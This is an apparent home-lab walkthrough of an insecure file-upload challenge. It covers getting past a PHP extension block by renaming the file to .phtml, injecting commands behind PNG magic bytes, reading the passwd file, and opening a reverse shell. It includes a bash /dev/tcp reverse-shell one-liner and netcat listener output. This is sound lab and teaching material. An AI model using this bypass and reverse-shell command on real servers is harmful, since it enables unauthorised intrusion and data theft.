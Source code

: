 # Challange - Insecure File Upload

- Upon navigating to the site I got this interface:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/b6c75ff4-6b49-485a-882e-fdaf7ac601bb)

- On trying to upload text or other extension files except "png" and "jpg" I got the error message:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/6b2fa0c0-958d-4ef7-bbe6-20c212027a82)

- So, I go with uploading a png file and intercept the request to the burp suite to analyze the request:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/856aa3d2-fb1e-4a44-ae77-8389a24534b6)

- After several tries, I can't able to upload the file, it returns an error:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d537bd32-f586-4ff3-9b8c-d6ea5c19d9fd)

- Quick ping to mind, maybe the extension "PHP" is in the blocked list. I tried with other extensions and see if they work.
- I tried with the extension ".sh" and luckily it works
- I inject a bash reverse shell into the image png magic bytes.
- cmd: `bash -i >& /dev/tcp/<IP>/4242 0>&1`

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/959b76b2-285b-4d4a-870a-95ed0d732481)

- Unfortunately, on navigating to the "bash.sh" file in the URL I got no results.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/65761330-e5d5-42d3-8830-1d4f19782050)

- On enumerating a little deeper, I notice that the website is working on PHP and PHP extension is blocked by the server.
- I do a quick search on Google regarding bypassing the php extension blockage.
- There I get to know about other extensions that worked with PHP such as:

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/ea6fedaa-9c41-4f28-8d60-76990a57d356)

- I quickly changed the file extension from "image.php" to "image.phtml" and send a request through Burp Suite's repeater by inserting command line code in image png magick bytes.
- I get succeed in uploading the file with the extension ".phtml"
  
![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/c0e9ea79-f918-4f57-b901-abb1267e09c6)

- On navigating to the file through the URL I successfully get the revert by embedding the command and argument into the URL.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/922d4f3f-8c8b-4e34-b072-175284c411af)

- I also get succeeded in fetching "passwd" file from the system.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/d817968f-322c-4e95-950a-2052901a087c)

- To get the reverse shell to my system I use PHP reverse shell by pentest-monkey and replace it in place of the previous injected command.
- Netcat is set for listening.

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/30db9361-ad05-4b99-9c52-fd8425c48693)

- On navigating to the uploaded file I got a reverse shell to my system successfully

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/c4b76909-ef86-4471-b723-42aa4ac6ac8a)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.89] from (UNKNOWN) [xxx.xxx.xx.4] 39498
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 08:36:38 up  5:06,  0 users,  load average: 1.22, 1.41, 1.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
